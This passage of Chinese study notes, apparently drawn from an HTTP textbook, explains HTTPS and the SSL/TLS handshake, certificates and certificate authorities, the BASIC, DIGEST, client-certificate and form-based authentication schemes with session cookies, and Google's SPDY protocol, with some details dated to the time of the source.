HTTPS 通信时，不再用 http://，而是改用 https://。另外，当浏览器访
问 HTTPS 通信有效的 Web 网站时，浏览器的地址栏内会出现一个带
锁的标记。对 HTTPS 的显示方式会因浏览器的不同而有所改变。

**HTTPS是身披SSL外壳的 HTTP**

HTTPS并非是应用层的一种新协议。只是 HTTP 通信接口部分用
SSL（Secure Socket Layer）和 TLS（Transport Layer Security）协议代
替而已。

通常，HTTP 直接和 TCP 通信。当使用 SSL 时，则演变成先和 SSL 通
信，再由 SSL 和 TCP 通信了。简言之，所谓 HTTPS，其实就是身披
SSL 协议这层外壳的 HTTP。


在采用 SSL 后，HTTP 就拥有了 HTTPS 的加密、证书和完整性保护
这些功能。

SSL 是独立于 HTTP 的协议，所以不光是 HTTP 协议，其他运行在应
用层的 SMTP 和 Telnet 等协议均可配合 SSL 协议使用。可以说 SSL 是
当今世界上应用最为广泛的网络安全技术。

**相互交换密钥的公开密钥加密技术**

在对 SSL 进行讲解之前，我们先来了解一下加密方法。SSL 采用一种
叫做公开密钥加密（Public-key cryptography）的加密处理方式。

近代的加密方法中加密算法是公开的，而密钥却是保密的。通过这种
方式得以保持加密方法的安全性。

加密和解密都会用到密钥。没有密钥就无法对密码解密，反过来说，
任何人只要持有密钥就能解密了。如果密钥被攻击者获得，那加密也
就失去了意义。

- 共享密钥加密的困境  
  加密和解密同用一个密钥的方式称为共享密钥加密（Common key
  crypto system），也被叫做对称密钥加密。
  
  以共享密钥方式加密时必须将密钥也发给对方。可究竟怎样才能
  安全地转交？在互联网上转发密钥时，如果通信被监听那么密钥
  就可会落入攻击者之手，同时也就失去了加密的意义。另外还得
  设法安全地保管接收到的密钥。
  
- 使用两把密钥的公开密钥加密  
  公开密钥加密方式很好地解决了共享密钥加密的困难。
  公开密钥加密使用一对非对称的密钥。一把叫做私有密钥
  （private key），另一把叫做公开密钥（public key）。顾名思
  义，私有密钥不能让其他任何人知道，而公开密钥则可以随意发
  布，任何人都可以获得。
  使用公开密钥加密方式，发送密文的一方使用对方的公开密钥进
  行加密处理，对方收到被加密的信息后，再使用自己的私有密钥
  进行解密。利用这种方式，不需要发送用来解密的私有密钥，也
  不必担心密钥被攻击者窃听而盗走
  另外，要想根据密文和公开密钥，恢复到信息原文是异常困难
  的，因为解密过程就是在对离散对数进行求值，这并非轻而易举
  就能办到。退一步讲，如果能对一个非常大的整数做到快速地因
  式分解，那么密码破解还是存在希望的。但就目前的技术来看是
  不太现实的。
  
- HTTPS采用混合加密机制
  HTTPS 采用共享密钥加密和公开密钥加密两者并用的混合加密
  机制。若密钥能够实现安全交换，那么有可能会考虑仅使用公开
  密钥加密来通信。但是公开密钥加密与共享密钥加密相比，其处
  理速度要慢。
  所以应充分利用两者各自的优势，将多种方法组合起来用于通
  信。在交换密钥环节使用公开密钥加密方式，之后的建立通信交
  换报文阶段则使用共享密钥加密方式。
  

**证明公开密钥正确性的证书**

遗憾的是，公开密钥加密方式还是存在一些问题的。那就是无法证明
公开密钥本身就是货真价实的公开密钥。比如，正准备和某台服务器
建立公开密钥加密方式下的通信时，如何证明收到的公开密钥就是原
本预想的那台服务器发行的公开密钥。或许在公开密钥传输途中，真
正的公开密钥已经被攻击者替换掉了。

为了解决上述问题，可以使用由数字证书认证机构（CA，Certificate
Authority）和其相关机关颁发的公开密钥证书。

数字证书认证机构处于客户端与服务器双方都可信赖的第三方机构的
立场上。威瑞信（VeriSign）就是其中一家非常有名的数字证书认证
机构。我们来介绍一下数字证书认证机构的业务流程。首先，服务器
的运营人员向数字证书认证机构提出公开密钥的申请。数字证书认证
机构在判明提出申请者的身份之后，会对已申请的公开密钥做数字签
名，然后分配这个已签名的公开密钥，并将该公开密钥放入公钥证书
后绑定在一起。

服务器会将这份由数字证书认证机构颁发的公钥证书发送给客户端，
以进行公开密钥加密方式通信。公钥证书也可叫做数字证书或直接称
为证书。

接到证书的客户端可使用数字证书认证机构的公开密钥，对那张证书
上的数字签名进行验证，一旦验证通过，客户端便可明确两件事：
一，认证服务器的公开密钥的是真实有效的数字证书认证机构。二，
服务器的公开密钥是值得信赖的。

此处认证机关的公开密钥必须安全地转交给客户端。使用通信方式
时，如何安全转交是一件很困难的事，因此，多数浏览器开发商发布
版本时，会事先在内部植入常用认证机关的公开密钥。


**可证明组织真实性的 EV SSL 证书**

证书的一个作用是用来证明作为通信一方的服务器是否规范，另
外一个作用是可确认对方服务器背后运营的企业是否真实存在。
拥有该特性的证书就是 EV SSL 证书（Extended Validation SSL
Certificate）

EV SSL 证书是基于国际标准的认证指导方针颁发的证书。其严
格规定了对运营组织是否真实的确认方针，因此，通过认证的
Web 网站能够获得更高的认可度。

持有 EV SSL 证书的 Web 网站的浏览器地址栏处的背景色是绿色
的，从视觉上就能一眼辨别出。而且在地址栏的左侧显示了 SSL
证书中记录的组织名称以及颁发证书的认证机构的名称。

上述机制的原意图是为了防止用户被钓鱼攻击（Phishing），但
就效果上来讲，还得打一个问号。很多用户可能不了解 EV SSL
证书相关的知识，因此也不太会留意它。

**用以确认客户端的客户端证书**

HTTPS 中还可以使用客户端证书。以客户端证书进行客户端认
证，证明服务器正在通信的对方始终是预料之内的客户端，其作
用跟服务器证书如出一辙。

但客户端证书仍存在几处问题点。其中的一个问题点是证书的获
取及发布。

想获取证书时，用户得自行安装客户端证书。但由于客户端证书
是要付费购买的，且每张证书对应到每位用户也就意味着需支付
和用户数对等的费用。另外，要让知识层次不同的用户们自行安
装证书，这件事本身也充满了各种挑战。

现状是，安全性极高的认证机构可颁发客户端证书但仅用于特殊
用途的业务。比如那些可支撑客户端证书支出费用的业务。

例如，银行的网上银行就采用了客户端证书。在登录网银时不仅
要求用户确认输入 ID 和密码，还会要求用户的客户端证书，以
确认用户是否从特定的终端访问网银。

客户端证书存在的另一个问题点是，客户端证书毕竟只能用来证
明客户端实际存在，而不能用来证明用户本人的真实有效性。也
就是说，只要获得了安装有客户端证书的计算机的使用权限，也
就意味着同时拥有了客户端证书的使用权限。

**认证机构信誉第一**

SSL 机制中介入认证机构之所以可行，是因为建立在其信用绝对
可靠这一大前提下的。然而，2011 年 7 月，荷兰的一家名叫
DigiNotar 的认证机构曾遭黑客不法入侵，颁布了 google.com 和
twitter.com 等网站的伪造证书事件。这一事件从根本上撼动了
SSL 的可信度。

因为伪造证书上有正规认证机构的数字签名，所以浏览器会判定
该证书是正当的。当伪造的证书被用做服务器伪装之时，用户根
本无法察觉到。

虽然存在可将证书无效化的证书吊销列表（Certificate Revocation
List，CRL）机制，以及从客户端删除根证书颁发机构（Root
Certificate Authority，RCA）的对策，但是距离生效还需要一段
时间，而在这段时间内，到底会有多少用户的利益蒙受损失就不
得而知了

**由自认证机构颁发的证书称为自签名证书**

如果使用 OpenSSL 这套开源程序，每个人都可以构建一套属于
自己的认证机构，从而自己给自己颁发服务器证书。但该服务器
证书在互联网上不可作为证书使用，似乎没什么帮助。

独立构建的认证机构叫做自认证机构，由自认证机构颁发的“无
用”证书也被戏称为自签名证书。

浏览器访问该服务器时，会显示“无法确认连接安全性”或“该网
站的安全证书存在问题”等警告消息。

由自认证机构颁发的服务器证书之所以不起作用，是因为它无法
消除伪装的可能性。自认证机构能够产生的作用顶多也就是自己
对外宣称“我是○○”的这种程度。即使采用自签名证书，通过 SSL
加密之后，可能偶尔还会看见通信处在安全状态的提示，可那也
是有问题的。因为 就算加密通信，也不能排除正在和已经过伪
装的假服务器保持通信。

值得信赖的第三方机构介入认证，才能让已植入在浏览器内的认
证机构颁布的公开密钥发挥作用，并借此证明服务器的真实性。

中级认证机构的证书可能会变成自认证证书

多数浏览器内预先已植入备受信赖的认证机构的证书，但也有一
小部分浏览器会植入中级认证机构的证书。

对于中级认证机构颁发的服务器证书，某些浏览器会以正规的证
书来对待，可有的浏览器会当作自签名证书

**HTTPS 的安全通信机制**

为了更好地理解 HTTPS，我们来观察一下 HTTPS 的通信步骤。



步骤 1： 客户端通过发送 Client Hello 报文开始 SSL 通信。报文中包
含客户端支持的 SSL 的指定版本、加密组件（Cipher Suite）列表（所
使用的加密算法及密钥长度等）。

步骤 2： 服务器可进行 SSL 通信时，会以 Server Hello 报文作为应
答。和客户端一样，在报文中包含 SSL 版本以及加密组件。服务器的
加密组件内容是从接收到的客户端加密组件内筛选出来的。

步骤 3： 之后服务器发送 Certificate 报文。报文中包含公开密钥证
书。

步骤 4： 最后服务器发送 Server Hello Done 报文通知客户端，最初阶
段的 SSL 握手协商部分结束。

步骤 5： SSL 第一次握手结束之后，客户端以 Client Key Exchange 报
文作为回应。报文中包含通信加密中使用的一种被称为 Pre-master
secret 的随机密码串。该报文已用步骤 3 中的公开密钥进行加密。

步骤 6： 接着客户端继续发送 Change Cipher Spec 报文。该报文会提
示服务器，在此报文之后的通信会采用 Pre-master secret 密钥加密。

步骤 7： 客户端发送 Finished 报文。该报文包含连接至今全部报文的
整体校验值。这次握手协商是否能够成功，要以服务器是否能够正确
解密该报文作为判定标准。

步骤 8： 服务器同样发送 Change Cipher Spec 报文。

步骤 9： 服务器同样发送 Finished 报文。

步骤 10： 服务器和客户端的 Finished 报文交换完毕之后，SSL 连接
就算建立完成。当然，通信会受到 SSL 的保护。从此处开始进行应用
层协议的通信，即发送 HTTP 请求。

步骤 11： 应用层协议通信，即发送 HTTP 响应。

步骤 12： 最后由客户端断开连接。断开连接时，发送 close_notify 报
文。上图做了一些省略，这步之后再发送 TCP FIN 报文来关闭与 TCP
的通信。

在以上流程中，应用层发送数据时会附加一种叫做 MAC（Message
Authentication Code）的报文摘要。MAC 能够查知报文是否遭到篡
改，从而保护报文的完整性。

下面是对整个流程的图解。图中说明了从仅使用服务器端的公开密钥
证书（服务器证书）建立 HTTPS 通信的整个过程。


- SSL和TLS  
  SSL 技术最初是由浏览器开发商网景通信公司率先倡导的，开发
  过 SSL3.0 之前的版本。目前主导权已转移到 IETF（Internet
  Engineering Task Force，Internet 工程任务组）的手中。  
  IETF 以 SSL3.0 为基准，后又制定了 TLS1.0、TLS1.1 和
  TLS1.2。TSL 是以 SSL 为原型开发的协议，有时会统一称该协议
  为 SSL。当前主流的版本是 SSL3.0 和 TLS1.0。  
  由于 SSL1.0 协议在设计之初被发现出了问题，就没有实际投入
  使用。SSL2.0 也被发现存在问题，所以很多浏览器直接废除了
  该协议版本
- SSL速度慢吗  
  HTTPS 也存在一些问题，那就是当使用 SSL 时，它的处理速度
  会变慢。
  
  SSL 的慢分两种。一种是指通信慢。另一种是指由于大量消耗
  CPU 及内存等资源，导致处理速度变慢。  
  和使用 HTTP 相比，网络负载可能会变慢 2 到 100 倍。除去和
  TCP 连接、发送 HTTP 请求 • 响应以外，还必须进行 SSL 通信，
  因此整体上处理通信量不可避免会增加。  
  另一点是 SSL 必须进行加密处理。在服务器和客户端都需要进行
  加密和解密的运算处理。因此从结果上讲，比起 HTTP 会更多地
  消耗服务器和客户端的硬件资源，导致负载增强。  
  针对速度变慢这一问题，并没有根本性的解决方案，我们会使用
  SSL 加速器这种（专用服务器）硬件来改善该问题。该硬件为
  SSL 通信专用硬件，相对软件来讲，能够提高数倍 SSL 的计算速
  度。仅在 SSL 处理时发挥 SSL 加速器的功效，以分担负载。
  > 为什么不一直使用 HTTPS  
    既然 HTTPS 那么安全可靠，那为何所有的 Web 网站不一直使用
    HTTPS ？  
    其中一个原因是，因为与纯文本通信相比，加密通信会消耗更多的
    CPU 及内存资源。如果每次通信都加密，会消耗相当多的资源，平
    摊到一台计算机上时，能够处理的请求数量必定也会随之减少。  
    因此，如果是非敏感信息则使用 HTTP 通信，只有在包含个人信息
    等敏感数据时，才利用 HTTPS 加密通信。  
    特别是每当那些访问量较多的 Web 网站在进行加密处理时，它们
    所承担着的负载不容小觑。在进行加密处理时，并非对所有内容都
    进行加密处理，而是仅在那些需要信息隐藏时才会加密，以节约资
    源。
    除此之外，想要节约购买证书的开销也是原因之一。  
    要进行 HTTPS 通信，证书是必不可少的。而使用的证书必须向认
    证机构（CA）购买。证书价格可能会根据不同的认证机构略有不
    同。通常，一年的授权需要数万日元（现在一万日元大约折合 600
    人民币）  
    那些购买证书并不合算的服务以及一些个人网站，可能只会选择采
    用 HTTP 的通信方式。

## 八、确认访问用户身份的认证

某些 Web 页面只想让特定的人浏览，或者干脆仅本人可见。为达到
这个目标，必不可少的就是认证功能。下面我们一起来学习一下认证
机制。

### 8.1 何为认证

计算机本身无法判断坐在显示器前的使用者的身份。进一步说，也无
法确认网络的那头究竟有谁。可见，为了弄清究竟是谁在访问服务
器，就得让对方的客户端自报家门。

可是，就算正在访问服务器的对方声称自己是ueno，身份是否属实这
点却也无从谈起。为确认 ueno 本人是否真的具有访问系统的权限，
就需要核对“登录者本人才知道的信息”、“登录者本人才会有的信
息”。

核对的信息通常是指以下这些。

- 密码：只有本人才会知道的字符串信息。
- 动态令牌：仅限本人持有的设备内显示的一次性密码。
- 数字证书：仅限本人（终端）持有的信息。
- 生物认证：指纹和虹膜等本人的生理信息。
- IC 卡等：仅限本人持有的信息。

但是，即便对方是假冒的用户，只要能通过用户验证，那么计算机就
会默认是出自本人的行为。因此，掌控机密信息的密码绝不能让他人
得到，更不能轻易地就被破解出来。

HTTP 使用的认证方式

HTTP/1.1 使用的认证方式如下所示。
- BASIC 认证（基本认证）
- DIGEST 认证（摘要认证）
- SSL 客户端认证
- FormBase 认证（基于表单认证）

此外，还有 Windows 统一认证（Keberos 认证、NTLM 认证），但本
书不作讲解。

### 8.2 BASIC 认证
BASIC 认证（基本认证）是从 HTTP/1.0 就定义的认证方式。即便是
现在仍有一部分的网站会使用这种认证方式。是 Web 服务器与通信
客户端之间进行的认证方式。

BASIC 认证的认证步骤：



步骤 1： 当请求的资源需要 BASIC 认证时，服务器会随状态码 401
Authorization Required，返回带 WWW-Authenticate 首部字段的响应。
该字段内包含认证的方式（BASIC） 及 Request-URI 安全域字符串
（realm）。

步骤 2： 接收到状态码 401 的客户端为了通过 BASIC 认证，需要将
用户 ID 及密码发送给服务器。发送的字符串内容是由用户 ID 和密码
构成，两者中间以冒号（:）连接后，再经过 Base64 编码处理。

假设用户 ID 为 guest，密码是 guest，连接起来就会形成 guest:guest 这
样的字符串。然后经过 Base64 编码，最后的结果即是
Z3Vlc3Q6Z3Vlc3Q=。把这串字符串写入首部字段 Authorization 后，
发送请求。

当用户代理为浏览器时，用户仅需输入用户 ID 和密码即可，之后，
浏览器会自动完成到 Base64 编码的转换工作。

步骤 3： 接收到包含首部字段 Authorization 请求的服务器，会对认证
信息的正确性进行验证。如验证通过，则返回一条包含 Request-URI
资源的响应。

BASIC 认证虽然采用 Base64 编码方式，但这不是加密处理。不需要
任何附加信息即可对其解码。换言之，由于明文解码后就是用户 ID
和密码，在 HTTP 等非加密通信的线路上进行 BASIC 认证的过程
中，如果被人窃听，被盗的可能性极高。

另外，除此之外想再进行一次 BASIC 认证时，一般的浏览器却无法
实现认证注销操作，这也是问题之一。

BASIC 认证使用上不够便捷灵活，且达不到多数 Web 网站期望的安
全性等级，因此它并不常用。

### 8.3　DIGEST 认证
为弥补 BASIC 认证存在的弱点，从 HTTP/1.1 起就有了 DIGEST 认
证。 DIGEST 认证同样使用质询 / 响应的方式
（challenge/response），但不会像 BASIC 认证那样直接发送明文密
码。

所谓质询响应方式是指，一开始一方会先发送认证要求给另一方，接
着使用从另一方那接收到的质询码计算生成响应码。最后将响应码返
回给对方进行认证的方式

因为发送给对方的只是响应摘要及由质询码产生的计算结果，所以比
起 BASIC 认证，密码泄露的可能性就降低了.


步骤 1： 请求需认证的资源时，服务器会随着状态码 401
Authorization Required，返 回带 WWW-Authenticate 首部字段的响应。
该字段内包含质问响应方式认证所需的临时质询码（随机数，
nonce）。

首部字段 WWW-Authenticate 内必须包含 realm 和 nonce 这两个字段的
信息。客户端就是依靠向服务器回送这两个值进行认证的。

nonce 是一种每次随返回的 401 响应生成的任意随机字符串。该字符
串通常推荐由 Base64 编码的十六进制数的组成形式，但实际内容依
赖服务器的具体实现。

步骤 2： 接收到 401 状态码的客户端，返回的响应中包含 DIGEST 认
证必须的首部字段 Authorization 信息。

首部字段 Authorization 内必须包含 username、realm、nonce、uri 和
response 的字段信息。其中，realm 和 nonce 就是之前从服务器接收到
的响应中的字段。

username 是 realm 限定范围内可进行认证的用户名。
uri（digest-uri）即 Request-URI 的值，但考虑到经代理转发后
Request-URI 的值可能被修改，因此事先会复制一份副本保存在 uri
内。

response 也可叫做 Request-Digest，存放经过 MD5 运算后的密码字符
串，形成响应码。

响应中其他的实体请参见第 6 章的请求首部字段 Authorization。另
外，有关 Request-Digest 的计算规则较复杂，有兴趣的读者不妨深入
学习一下 RFC2617。

步骤 3： 接收到包含首部字段 Authorization 请求的服务器，会确认认
证信息的正确性。认证通过后则返回包含 Request-URI 资源的响应。
并且这时会在首部字段 Authentication-Info 写入一些认证成功的相关信
息。

DIGEST 认证提供了高于 BASIC 认证的安全等级，但是和 HTTPS 的
客户端认证相比仍旧很弱。DIGEST 认证提供防止密码被窃听的保护
机制，但并不存在防止用户伪装的保护机制。

DIGEST 认证和 BASIC 认证一样，使用上不那么便捷灵活，且仍达不
到多数 Web 网站对高度安全等级的追求标准。因此它的适用范围也
有所受限。

### 8.4　SSL 客户端认证
从使用用户 ID 和密码的认证方式方面来讲，只要二者的内容正确，
即可认证是本人的行为。但如果用户 ID 和密码被盗，就很有可能被
第三者冒充。利用 SSL 客户端认证则可以避免该情况的发生。

SSL 客户端认证是借由 HTTPS 的客户端证书完成认证的方式。凭借
客户端证书（在 HTTPS 一章已讲解）认证，服务器可确认访问是否
来自已登录的客户端。

**SSL 客户端认证的认证步骤**

为达到 SSL 客户端认证的目的，需要事先将客户端证书分发给客户
端，且客户端必须安装此证书。

步骤 1： 接收到需要认证资源的请求，服务器会发送 Certificate
Request 报文，要求客户端提供客户端证书。

步骤 2： 用户选择将发送的客户端证书后，客户端会把客户端证书信
息以 Client Certificate 报文方式发送给服务器。


步骤 3： 服务器验证客户端证书验证通过后方可领取证书内客户端的
公开密钥，然后开始 HTTPS 加密通信。

**SSL 客户端认证采用双因素认证**

在多数情况下，SSL 客户端认证不会仅依靠证书完成认证，一般会和
基于表单认证（稍后讲解）组合形成一种双因素认证（Two-factor
authentication）来使用。所谓双因素认证就是指，认证过程中不仅需
要密码这一个因素，还需要申请认证者提供其他持有信息，从而作为
另一个因素，与其组合使用的认证方式。

换言之，第一个认证因素的 SSL 客户端证书用来认证客户端计算机，
另一个认证因素的密码则用来确定这是用户本人的行为。

通过双因素认证后，就可以确认是用户本人正在使用匹配正确的计算
机访问服务器。

**SSL 客户端认证必要的费用**

使用 SSL 客户端认证需要用到客户端证书。而客户端证书需要支付一
定费用才能使用。

这里提到的费用是指，从认证机构购买客户端证书的费用，以及服务
器运营者为保证自己搭建的认证机构安全运营所产生的费用。

每个认证机构颁发客户端证书的费用不尽相同，平摊到一张证书上，
一年费用约几万至十几万日元。服务器运营者也可以自己搭建认证机
构，但要维持安全运行就会产生相应的费用。

### 8.5　基于表单认证
基于表单的认证方法并不是在 HTTP 协议中定义的。客户端会向服务
器上的 Web 应用程序发送登录信息（Credential），按登录信息的验
证结果认证。

根据 Web 应用程序的实际安装，提供的用户界面及认证方式也各不
相同。


多数情况下，输入已事先登录的用户 ID（通常是任意字符串或邮件
地址）和密码等登录信息后，发送给 Web 应用程序，基于认证结果
来决定认证是否成功。

**8.5.1 认证多半为基于表单认证**

由于使用上的便利性及安全性问题，HTTP 协议标准提供的 BASIC 认
证和 DIGEST 认证几乎不怎么使用。另外，SSL 客户端认证虽然具有
高度的安全等级，但因为导入及维持费用等问题，还尚未普及。

比如 SSH 和 FTP 协议，服务器与客户端之间的认证是合乎标准规范
的，并且满足了最基本的功能需求上的安全使用级别，因此这些协议
的认证可以拿来直接使用。但是对于 Web 网站的认证功能，能够满
足其安全使用级别的标准规范并不存在，所以只好使用由 Web 应用
程序各自实现基于表单的认证方式。

不具备共同标准规范的表单认证，在每个 Web 网站上都会有各不相
同的实现方式。如果是全面考虑过安全性能而实现的表单认证，那么
就能够具备高度的安全等级。但在表单认证的实现中存在问题的 Web
网站也是屡见不鲜。

**8.5.2　Session 管理及 Cookie 应用**

基于表单认证的标准规范尚未有定论，一般会使用 Cookie 来管理
Session（会话）。

基于表单认证本身是通过服务器端的 Web 应用，将客户端发送过来
的用户 ID 和密码与之前登录过的信息做匹配来进行认证的。

但鉴于 HTTP 是无状态协议，之前已认证成功的用户状态无法通过协
议层面保存下来。即，无法实现状态管理，因此即使当该用户下一次
继续访问，也无法区分他与其他的用户。于是我们会使用 Cookie 来
管理 Session，以弥补 HTTP 协议中不存在的状态管理功能。


步骤 1： 客户端把用户 ID 和密码等登录信息放入报文的实体部分，
通常是以 POST 方法把请求发送给服务器。而这时，会使用 HTTPS
通信来进行 HTML 表单画面的显示和用户输入数据的发送。

步骤 2： 服务器会发放用以识别用户的 Session ID。通过验证从客户
端发送过来的登录信息进行身份认证，然后把用户的认证状态与
Session ID 绑定后记录在服务器端。

向客户端返回响应时，会在首部字段 Set-Cookie 内写入 Session
ID（如 PHPSESSID=028a8c…）。
你可以把 Session ID 想象成一种用以区分不同用户的等位号。

然而，如果 Session ID 被第三方盗走，对方就可以伪装成你的身份进
行恶意操作了。因此必须防止 Session ID 被盗，或被猜出。为了做到
这点，Session ID 应使用难以推测的字符串，且服务器端也需要进行
有效期的管理，保证其安全性。

另外，为减轻跨站脚本攻击（XSS）造成的损失，建议事先在 Cookie
内加上 httponly 属性。

步骤 3： 客户端接收到从服务器端发来的 Session ID 后，会将其作为
Cookie 保存在本地。下次向服务器发送请求时，浏览器会自动发送
Cookie，所以 Session ID 也随之发送到服务器。服务器端可通过验证
接收到的 Session ID 识别用户和其认证状态。

除了以上介绍的应用实例，还有应用其他不同方法的案例。
另外，不仅基于表单认证的登录信息及认证过程都无标准化的方法，
服务器端应如何保存用户提交的密码等登录信息等也没有标准化。

通常，一种安全的保存方法是，先利用给密码加盐（salt）1 的方式增
加额外信息，再使用散列（hash）函数计算出散列值后保存。但是我
们也经常看到直接保存明文密码的做法，而这样的做法具有导致密码
泄露的风险。

## 第 9 章　基于 HTTP 的功能追加协议
虽然 HTTP 协议既简单又简捷，但随着时代的发展，其功能使用上捉
襟见肘的疲态已经凸显。本章我们将讲解基于 HTTP 新增的功能的协
议

### 9.1　基于 HTTP 的协议
**9.1　基于 HTTP 的协议**

在建立 HTTP 标准规范时，制订者主要想把 HTTP 当作传输 HTML 文
档的协议。随着时代的发展，Web 的用途更具多样性，比如演化成在
线购物网站、SNS（Social Networking Service，社交网络服务）、企
业或组织内部的各种管理工具，等等。

而这些网站所追求的功能可通过 Web 应用和脚本程序实现。即使这
些功能已经满足需求，在性能上却未必最优，这是因为 HTTP 协议上
的限制以及自身性能有限。

HTTP 功能上的不足可通过创建一套全新的协议来弥补。可是目前基
于 HTTP 的 Web 浏览器的使用环境已遍布全球，因此无法完全抛弃
HTTP。有一些新协议的规则是基于 HTTP 的，并在此基础上添加了
新的功能。

**9.2　消除 HTTP 瓶颈的 SPDY**

Google 在 2010 年发布了 SPDY（取自 SPeeDY，发音同 speedy），其
开发目标旨在解决 HTTP 的性能瓶颈，缩短 Web 页面的加载时间
（50%）。

- SPDY - The Chromium Projects
- http://www.chromium.org/spdy/

**9.2.1　HTTP 的瓶颈**

在 Facebook 和 Twitter 等 SNS 网站上，几乎能够实时观察到海量用户
公开发布的内容，这也是一种乐趣。当几百、几千万的用户发布内容
时，Web 网站为了保存这些新增内容，在很短的时间内就会发生大量
的内容更新。

为了尽可能实时地显示这些更新的内容，服务器上一有内容更新，就
需要直接把那些内容反馈到客户端的界面上。虽然看起来挺简单的，
但 HTTP 却无法妥善地处理好这项任务。

使用 HTTP 协议探知服务器上是否有内容更新，就必须频繁地从客户
端到服务器端进行确认。如果服务器上没有内容更新，那么就会产生
徒劳的通信。

若想在现有 Web 实现所需的功能，以下这些 HTTP 标准就会成为瓶
颈。

- 一条连接上只可发送一个请求。
- 请求只能从客户端开始。客户端不可以接收除响应以外的指令。
- 请求 / 响应首部未经压缩就发送。首部信息越多延迟越大。
- 发送冗长的首部。每次互相发送相同的首部造成的浪费较多。
- 可任意选择数据压缩格式。非强制压缩发送。


Ajax 的解决方法

Ajax（Asynchronous JavaScript and XML， 异 步 JavaScript 与 XML 技
术）是一种有效利用 JavaScript 和 DOM（Document Object Model，文
档对象模型）的操作，以达到局部 Web 页面替换加载的异步通信手
段。和以前的同步通信相比，由于它只更新一部分页面，响应中传输
的数据量会因此而减少，这一优点显而易见。

Ajax 的核心技术是名为 XMLHttpRequest 的 API，通过 JavaScript 脚本
语言的调用就能和服务器进行 HTTP 通信。借由这种手段，就能从已
加载完毕的 Web 页面上发起请求，只更新局部页面。

而利用 Ajax 实时地从服务器获取内容，有可能会导致大量请求产
生。另外，Ajax 仍未解决 HTTP 协议本身存在的问题。


Comet 的解决方法

一旦服务器端有内容更新了，Comet 不会让请求等待，而是直接给客
户端返回响应。这是一种通过延迟应答，模拟实现服务器端向客户端
推送（Server Push）的功能。

通常，服务器端接收到请求，在处理完毕后就会立即返回响应，但为
了实现推送功能，Comet 会先将响应置于挂起状态，当服务器端有内
容更新时，再返回该响应。因此，服务器端一旦有更新，就可以立即
反馈给客户端。

内容上虽然可以做到实时更新，但为了保留响应，一次连接的持续时
间也变长了。期间，为了维持连接会消耗更多的资源。另外，Comet
也仍未解决 HTTP 协议本身存在的问题。


SPDY 的目标
陆续出现的 Ajax 和 Comet 等提高易用性的技术，一定程度上使 HTTP
得到了改善，但 HTTP 协议本身的限制也令人有些束手无策。为了进
行根本性的改善，需要有一些协议层面上的改动。

处于持续开发状态中的 SPDY 协议，正是为了在协议级别消除 HTTP
所遭遇的瓶颈。

**9.2.2　SPDY 的设计与功能**

SPDY 没有完全改写 HTTP 协议，而是在 TCP/IP 的应用层与运输层之
间通过新加会话层的形式运作。同时，考虑到安全性问题，SPDY 规
定通信中使用 SSL。

SPDY 以会话层的形式加入，控制对数据的流动，但还是采用 HTTP
建立通信连接。因此，可照常使用 HTTP 的 GET 和 POST 等方 法、
Cookie 以及 HTTP 报文等。


使用 SPDY 后，HTTP 协议额外获得以下功能。

多路复用流

通过单一的 TCP 连接，可以无限制处理多个 HTTP 请求。所有请求
的处理都在一条 TCP 连接上完成，因此 TCP 的处理效率得到提高。

赋予请求优先级

SPDY 不仅可以无限制地并发处理请求，还可以给请求逐个分配优先
级顺序。这样主要是为了在发送多个请求时，解决因带宽低而导致响
应变慢的问题。

压缩 HTTP 首部

压缩 HTTP 请求和响应的首部。这样一来，通信产生的数据包数量和
发送的字节数就更少了。

推送功能

支持服务器主动向客户端推送数据的功能。这样，服务器可直接发送
数据，而不必等待客户端的请求。

服务器提示功能

服务器可以主动提示客户端请求所需的资源。由于在客户端发现资源
之前就可以获知资源的存在，因此在资源已缓存等情况下，可以避免
发送不必要的请求。

**9.2.3　SPDY消除Web瓶颈了吗**

希望使用 SPDY 时，Web 的内容端不必做什么特别改动，而 Web 浏
览器及 Web 服务器都要为对应 SPDY 做出一定程度上的改动。有好
几家 Web 浏览器已经针对 SPDY 做出了相应的调整。另外，Web 服
务器也进行了实验性质的应用，但把该技术导入实际的 Web 网站却
进展不佳。

因为 SPDY 基本上只是将单个域名（ IP 地址）的通信多路复用，所
以当一个 Web 网站上使用多个域名下的资源，改善效果就会受到限
制。

SPDY 的确是一种可有效消除 HTTP 瓶颈的技术，但很多 Web 网站存
在的问题并非仅仅是由 HTTP 瓶颈所导致。对 Web 本身的速度提
升，还应该从其他可细致钻研的地方入手，比如改善 Web 内容的编
写方式等。

